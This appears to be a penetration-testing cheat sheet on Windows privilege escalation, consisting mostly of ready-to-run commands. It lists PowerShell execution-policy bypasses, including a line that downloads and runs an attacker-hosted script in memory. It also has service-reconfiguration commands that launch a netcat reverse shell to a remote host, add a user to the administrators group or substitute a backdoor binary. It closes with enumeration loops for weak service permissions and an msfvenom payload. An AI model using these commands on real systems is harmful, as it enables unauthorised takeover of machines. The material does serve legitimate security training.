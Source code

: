 # Privilege Escalation

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## Privilege Escalation

### Script Execution Policy Bypass Methods

<table>
  <thead>
    <tr>
      <th style="text-align:left">Bypass Method</th>
      <th style="text-align:left">Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left"><code>Set-Executionpolicy unrestricted</code>
      </td>
      <td style="text-align:left">Administrator rights are required.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>Set-ExecutionPolicy -Scope CurrentUser Unrestricted</code>
      </td>
      <td style="text-align:left">Only works in the context of the current user, but requires no Administrator
        rights.</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <ol>
          <li>Open .ps1 file in text editor.</li>
          <li>Copy all text in the file</li>
          <li>Paste into PowerShell</li>
        </ol>
      </td>
      <td style="text-align:left">PowerShell will run each line of the script one at a time, essentially
        the same as running the script.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>function &lt;name&gt; { &lt;code_here&gt; }</code>
      </td>
      <td style="text-align:left">Similar to the above example, however you paste your code inside the curly
        braces, and run the code by typing the <code>&lt;name&gt;</code> of your
        function. Allows for <b>code reuse without having to copy and paste multiple times.</b>
      </td>
    </tr>
    <tr>
      <td style="text-align:left"><code>cat &lt;C:\script.ps1&gt; | IEX</code>
      </td>
      <td style="text-align:left">Pipes the output of the script to the <code>Invoke-Expression</code> cmdlet,
        which runs any specified string as a command and returns the results to
        the console. <code>IEX</code> is an alias for <code>Invoke-Expression</code>.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>IEX { &lt;code_here&gt; }</code>
      </td>
      <td style="text-align:left">Essentially creates a one-time use function from your code.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>&amp; { &lt;code_here&gt; }</code>
      </td>
      <td style="text-align:left">The operator (<code>&amp;</code>) is an alias for <code>Invoke-Expression</code> and
        is equivelent to the example above.</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p><code>$text = Get-Content C:\temp\AnyFile.txt -Raw</code>
        </p>
        <p><code>$script = [System.Management.Automation.ScriptBlock]::Create($text)</code>
        </p>
        <p>&lt;code&gt;&lt;/code&gt;</p>
        <p><code>&amp; $script</code>
        </p>
      </td>
      <td style="text-align:left">Using the .NET object <code>System.Management.Automation.ScriptBlock</code> we
        can compile and text content to a script block. Then, using (<code>&amp;</code>)
        we can easily execute this compiled and formatted text file.</td>
    </tr>
    <tr>
      <td style="text-align:left"><code>Echo IEX(New-Object Net.WebClient).DownloadString(http://&lt;ip:port/filename.ps1&gt;) | PowerShell -NoProfile -</code>
      </td>
      <td style="text-align:left">Download script from attacker&apos;s machine, then run in PowerShell,
        in memory. No files are written to disk.</td>
    </tr>
  </tbody>
</table>

## Services

#### Modify service binary path \(_link to persistence pages_\)

If one of the groups you have access to has SERVICE\_ALL\_ACCESS in a service, then it can modify the binary that is being executed by the service. To modify it and execute nc you can do:

```text
sc config <service_Name> binpath= "C:\nc.exe -nv <IP> <port> -e C:\WINDOWS\System32\cmd.exe"
//use SYSTEM privileged service to add your user to administrators group
sc config <service_Name> binpath= "net localgroup administrators <username> /add"
//replace executable with your own binary (best to only do this for unused services!)
sc config <service_name> binpath= "C:\path\to\backdoor.exe"
```

#### Service Permissions \(_link to persistence pages_\)

Other Permissions can be used to escalate privileges: SERVICE\_CHANGE\_CONFIG Can reconfigure the service binary WRITE\_DAC: Can reconfigure permissions, leading to SERVICE\_CHANGE\_CONFIG WRITE\_OWNER: Can become owner, reconfigure permissions GENERIC\_WRITE: Inherits SERVICE\_CHANGE\_CONFIG GENERIC\_ALL: Inherits SERVICE\_CHANGE\_CONFIG To detect and exploit this vulnerability you can use exploit/windows/local/service\_permissions

Check if you can modify the binary that is executed by a service. You can get every binary that is executed by a service using wmic \(not in system32\) and check your permissions using icacls:

```text
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

You can also use sc and icacls:

```text
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

#### Services registry permissions \(_link to persistence pages_\)

You should check if you can modify any service registry. You can check your permissions over a service registry doing:

```text
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Check if Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl. In that case you can change the binary that is going to be executed by the service. To change the Path of the binary executed: `reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f`

#### Unquoted Service Paths \(_link to persistence pages_\)

If the path to an executable is not inside quotes, Windows will try to execute every ending before a space. For example, for the path C:\Program Files\Some Folder\Service.exe Windows will try to execute:

```text
C:\Program.exe 
C:\Program Files\Some.exe 
C:\Program Files\Some Folder\Service.exe
```

To list all unquoted service paths \(minus built-in Windows services\)

```text
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services
```

-or-

```text
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
    for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
        echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
    )
)
```

-also-

```text
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

You can detect and exploit this vulnerability with metasploit: `exploit/windows/local/trusted_service_path` You can manually create a service binary with msfvenom: `msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe`

### References

* [http://vcloud-lab.com/entries/powershell/different-ways-to-bypass-powershell-execution-policy-ps1-cannot-be-loaded-because-running-scripts-is-disabled](http://vcloud-lab.com/entries/powershell/different-ways-to-bypass-powershell-execution-policy-ps1-cannot-be-loaded-because-running-scripts-is-disabled) - [@KunalAdapi](https://twitter.com/kunalUdapi)
* [https://gitlab.com/pentest-tools/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md](https://gitlab.com/pentest-tools/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

